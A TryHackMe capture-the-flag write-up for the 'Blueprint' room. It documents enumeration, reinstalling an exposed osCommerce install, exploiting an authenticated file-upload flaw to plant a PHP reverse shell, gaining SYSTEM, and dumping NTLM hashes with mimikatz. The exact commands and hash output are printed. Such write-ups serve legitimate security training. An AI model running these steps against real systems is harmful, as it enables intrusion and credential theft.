

# Blueprint
**Date:** April 6th 2022

**Author:** j.info

**Link:** [**Blueprint**](https://tryhackme.com/room/blueprint) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>



<br>

## Objectives
- "Lab" user NTLM hash decrypted
- root.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -A -T4 -Pn 10.10.176.147`

```bash
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/7.5
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
```

<br>

## SMB Digging

I enumerate SMB but don't find anything useful in the shares.

<br>

## Website Digging

Visiting the webpage on port 80 shows that one has not been setup there.

Checking out the website on port 8080 takes us to the following:


<br>

Inside of that directory are 2 additional called **docs** and **catalog**. The docs directory doesn't provide anything useful but checking out the catalog directory takes us to their online store:


<br>

That output looks pretty terrible since all links are trying to go to **localhost:8080**.

I start up ssh on my system with:

`systemctl start ssh`

And then run the following to forward port 8080 traffic there so the website will display properly:

`ssh -L 8080:10.10.176.147:8080 localhost`

And then navigating to the same page:


<br>

I take a look around the webpage but don't find anything interesting like SQLi, LFI, etc.

We know the page is running **osCommerce v2.3.4** so let's see if there are any exploits available for it.

`searchsploit osCommerce 2.3.4`

```bash
---------------------------------------------------------------- -----------------------
 Exploit Title                                                  |  Path
---------------------------------------------------------------- -----------------------
osCommerce 2.3.4 - Multiple Vulnerabilities                     | php/webapps/34582.txt
osCommerce 2.3.4.1 - 'currency' SQL Injection                   | php/webapps/46328.txt
osCommerce 2.3.4.1 - 'products_id' SQL Injection                | php/webapps/46329.txt
osCommerce 2.3.4.1 - 'reviews_id' SQL Injection                 | php/webapps/46330.txt
osCommerce 2.3.4.1 - 'title' Persistent Cross-Site Scripting    | php/webapps/49103.txt
osCommerce 2.3.4.1 - Arbitrary File Upload                      | php/webapps/43191.py
osCommerce 2.3.4.1 - Remote Code Execution                      | php/webapps/44374.py
osCommerce 2.3.4.1 - Remote Code Execution (2)                  | php/webapps/50128.py
---------------------------------------------------------------- -----------------------
```

I start off downloading the first RCE **44374.py**:

`searchsploit -m 44374.py`

```bash
  Exploit: osCommerce 2.3.4.1 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/44374
     Path: /usr/share/exploitdb/exploits/php/webapps/44374.py
File Type: ASCII text

Copied to: /home/kali/Downloads/44374.py
```

Taking a look at the code shows us that we don't provide arguments to the script but instead modify it and then run:

```python
base_url = "http://localhost//oscommerce-2.3.4.1/catalog/"
target_url = "http://localhost/oscommerce-2.3.4.1/catalog/install/install.php?step=4"

payload = '\');'
payload += 'system("ls");'    # this is where you enter you PHP payload
payload += '/*'
```

We also see that the **/install** directory must be present on the website still. I check and it is:


<br>

## osCommerce Reinstall

We could use the exploit here but I'm going to try a different route just for the fun of it. There's a nice shiny **start button** that appears to let you reinstall the server. I'm going to give that a try since it will likely let us configure the admin user/password during the install process and then login to the CMS system to see how it works.

Reinstalling the server:


Clicking the **Administration Tool** button takes us to the admin login page:


And finally we're logged in!


<br>

I dig around the site  for awhile looking for ways to upload files, modify existing .php files, etc and don't have any luck.

<br>

## System Access

From the **searchsploit** results earlier there was an **arbitrary authenticated file upload** vulnerability which I'll test here to try and get a reverse shell.

Downloading the exploit:

`searchsploit -m 43191.py`

Running the script gives an example usage:

```bash
Example: 43191.py -u http://localhost/path/to/osCommerce --auth=admin:admin_password -f shell.php
```

I run the exploit with the following command which uploads a reverse shell to the system. I use [**this multi os reverse shell**](https://github.com/pentestmonkey/php-reverse-shell):

`python2 43191.py -u http://10.10.50.2:8080/oscommerce-2.3.4 --auth=jdotinfo:password -f multi-os-rev-shell.php`

```bash
[+] Authentication successful
[+] Successfully prepared the exploit and created a new newsletter with nID 3
[+] Successfully locked the newsletter. Now attempting to upload..
[*] Now trying to verify that the file multi-os-rev-shell.php uploaded..
[+] Got a HTTP 200 Reply for the uploaded file!
[+] The uploaded file should now be available at http://10.10.50.2:8080/oscommerce-2.3.4/catalog/admin/multi-os-rev-shell.php
```

And navigating over to the provided URL gives us a shell on the box as system so we don't even need to escalate:

```bash
listening on [any] 4444 ...
connect to [<MY IP>] from (UNKNOWN) [10.10.50.2] 49611
SOCKET: Shell has connected!
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\xampp\htdocs\oscommerce-2.3.4\catalog\admin>whoami         
nt authority\system
```

<br>

## Root Flag

Changing over to the administrators desktop shows us the root flag:

```bash
 Directory of C:\Users\Administrator\Desktop

11/27/2019  07:15 PM    <DIR>          .
11/27/2019  07:15 PM    <DIR>          ..
11/27/2019  07:15 PM                37 root.txt.txt
```

<br>

## Lab Password

And now we just need to get the password hash for user Lab and crack it.

I upload an older 32 bit version of **mimikatz 2.1.1** to the system using the same exploit we've been using:

`python2 43191.py -u http://10.10.50.2:8080/oscommerce-2.3.4 --auth=jdotinfo:password -f mimikatz32.exe`

```bash
[+] Authentication successful
[+] Successfully prepared the exploit and created a new newsletter with nID 4
[+] Successfully locked the newsletter. Now attempting to upload..
[*] Now trying to verify that the file mimikatz32.exe uploaded..
[+] Got a HTTP 200 Reply for the uploaded file!
[+] The uploaded file should now be available at http://10.10.50.2:8080/oscommerce-2.3.4/catalog/admin/mimikatz32.exe
```

You can find the uploaded file in this directory:

```bash
 Directory of C:\xampp\htdocs\oscommerce-2.3.4\catalog\admin

04/06/2022  07:57 PM         1,250,056 mimikatz32.exe
```

Running mimikatz and providing it the `lsadump::sam` command:

```bash
C:\xampp\htdocs\oscommerce-2.3.4\catalog\admin>mimikatz32.exe

  .#####.   mimikatz 2.1.1 (x86) #17763 Dec  9 2018 23:56:27
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # lsadump::sam
PRINT
SysKey : 147a48de4a9815d2aa479598592b086f
Local SID : S-1-5-21-3130159037-241736515-3168549210

SAMKey : 3700ddba8f7165462130a4441ef47500

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 549a1bcb88e35dc18c7a0b0168631411

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : Lab
  Hash NTLM: 30e87bf999828446a1c1209ddde4c450
```

That gives us the hash we're looking for and heading over to [**crackstation**](https://crackstation.net/) shows us it's already been cracked and is in their rainbow tables:


<br>

And with that we've completed this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap**
- Using **ssh** to tunnel traffic to make a website display properly on our system
- Exploiting the **osCommerce /install** directory to reinstall the CMS from scratch giving us **admin**
- Using an **authenticated arbitrary file upload** vulnerability in osCommerce to send a **reverse shell** and gain system access
- Using **mimikatz** to dump **NTLM hashes** out of memory
- Using **crackstation.net** to lookup the password for the hash we found

<br>

Many thanks to:
- [**MrSeth6797**](https://tryhackme.com/p/MrSeth6797) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)
